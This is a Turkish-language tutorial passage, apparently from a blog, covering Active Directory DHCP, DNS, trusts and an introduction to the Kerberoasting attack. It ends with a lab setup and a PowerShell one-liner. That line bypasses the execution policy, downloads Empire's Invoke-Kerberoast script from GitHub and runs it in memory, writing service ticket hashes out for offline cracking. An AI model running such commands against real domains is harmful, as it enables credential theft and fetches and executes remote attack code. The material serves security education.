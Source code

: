 ![alt]({{ site.url }}{{ site.baseurl }}/assets/img/active/18.png)

Kurulumdan sonra ilgili ayarlar **windows + r → dhcpmgmt.msc** ile yapılır.

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/active/19.png)

## DNS

Dns servisini yükledikten sonra **windows+r → dnsmgmt.msc** ile açılan pencerede, yeni DNS kayıtları atanabilir, (ör : A, CNAME,MX) veya load balance (yük dengeleme) işlemleri için AD içerisinde ikinci bir DNS sunucusu yaratılabilir.

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/active/20.png)

## Active Directory'de Trust(Güven)

Active directory ortamında trust ağ üzerindeki çeşitli kaynaklara, kullanıcılara, gruplara ve bilgisayarlara erişilmesini mümkün kılar. Bu işlem iki domain arasında kimlik doğrulama ile gerçekleşir. İki adımlı bir süreçtir:

1. Trust sağlanır
2. İzinler atanır.

![alt]({{ site.url }}{{ site.baseurl }}/assets/img/active/21.png)

Trust işlemi sağlanırken önceden bahsettiğimiz kerberos kimlik doğrulama aşamalarından geçilir. İlerleyen kısımlarda bahsedeceğimiz kerberoast isimli saldırı tipinde bu trust aşamasını hedef alıyor olacağız.

## Kerberoast

Kerberoasting, saldırganların active directory ortamındaki servis hesaplarınının kimlik bilgilerine offline bir şekilde brute force yapabilmesidir. Bu saldırı legacy windows istemcilerinin active directory tarafından desteklenmesi, kerberos ticketlarının şifrelenmesinde ve imzalanma türünden kaynaklanmaktadır. Bir kullanıcı spesifik bir kaynağı kullanmak istediği zaman imzalı bir kerberos ticket'ı alırlar, imzalama işlemi ise o servisi yürüten hesabın NTLM hashi ile yapılır. Sorun da buradan kaynaklanmaktadır.

Aşağıdaki komut ile bu durumu simüle etmek amacıyla bir kullanıcı ardından ise bir servis oluşturuyoruz.

```
net user kullanici1 Passw0rd! /ADD /DOMAIN
setspn -s http/<domain>:80 kullanici1

```

ardından github üzerinden bu saldırıyı gerçekleştiren scripti indirip çalıştırıyoruz:

```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII hash.txt"
```
